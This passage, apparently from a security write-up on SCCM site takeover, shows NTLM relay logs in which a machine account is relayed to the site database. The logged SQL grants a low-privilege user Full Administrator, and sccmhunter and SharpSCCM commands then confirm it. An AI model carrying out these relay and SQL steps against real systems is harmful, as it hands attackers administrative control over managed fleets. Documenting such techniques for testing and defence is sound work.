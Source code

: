     After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the site database server to execute the SQL statements:

    ```
    [2024-02-22 16:37:17] [*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.57.50, attacking target mssql://192.168.57.51
    [2024-02-22 16:37:17] [*] Authenticating against mssql://192.168.57.51 as MAYYHEM/SITE-SERVER$ SUCCEED
    [2024-02-22 16:37:17] [*] Executing SQL: USE CM_ps1; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000D75D21256B6364FD4D95C88158040000,'MAYYHEM\lowpriv',0,0,'','','','','ps1');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00004','1');
    [2024-02-22 16:37:17] [*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.57.50 controlled, but there are no more targets left!
    [2024-02-22 16:37:17] [*] ENVCHANGE(DATABASE): Old Value: master, New Value: CM_PS1
    [2024-02-22 16:37:17] [*] INFO(SITE-DB): Line 1: Changed database context to 'CM_PS1'.
    ```

4. Confirm that the account now has the `Full Administrator` role by querying WMI on an SMS Provider.

    On Linux, using `sccmhunter`:
    ```
    $ python3 sccmhunter.py  admin -u lowpriv -p <PASSWORD> -ip SITE-SMS          

    [15:36:54] INFO     [!] Enter help for extra shell commands                                                                                                                                              
    () (C:\) >> show_admins
    [15:37:43] INFO     Tasked SCCM to list current SMS Admins.                                                                                                                                              
    [15:37:44] INFO     Current Full Admin Users:                                                                                                                                                            
    [15:37:44] INFO     MAYYHEM\sccmadmin                                                                                                                                                                    
    [15:37:44] INFO     MAYYHEM\lowpriv 
    ```

    On Windows, using `SharpSCCM`:
    ```
    > .\SharpSCCM.exe get users -n lowpriv -sms SITE-SMS -sc ps1

    [+] Connecting to \\SITE-SMS\root\SMS\site_ps1
    [+] Executing WQL query: SELECT * FROM SMS_R_User WHERE UniqueUserName LIKE '%lowpriv%'
    -----------------------------------
    SMS_R_User
    -----------------------------------
    AADTenantID:
    AADUserID:
    ADObjectCreationTime: 20230721132400.000000+***
    AgentName: SMS_AD_USER_DISCOVERY_AGENT, SMS_AD_SECURITY_GROUP_DISCOVERY_AGENT
    AgentSite: PS1, PS1
    AgentTime: 20230721202501.000000+***, 20230803202502.000000+***
    CloudUserId:
    CreationDate: 20230721202502.760000+***
    DistinguishedName: CN=Low Priv,CN=Users,DC=MAYYHEM,DC=LOCAL
    FullDomainName: MAYYHEM.LOCAL
    FullUserName: Low Priv
    Mail:
    Name: MAYYHEM\lowpriv (Low Priv)
    NetworkOperatingSystem: Windows NT
    ObjectGUID: Can't display UInt8 as a String
    PrimaryGroupID: 513
    ResourceId: 2063597571
    ResourceType: 4
    SecurityGroupName: MAYYHEM\Domain Users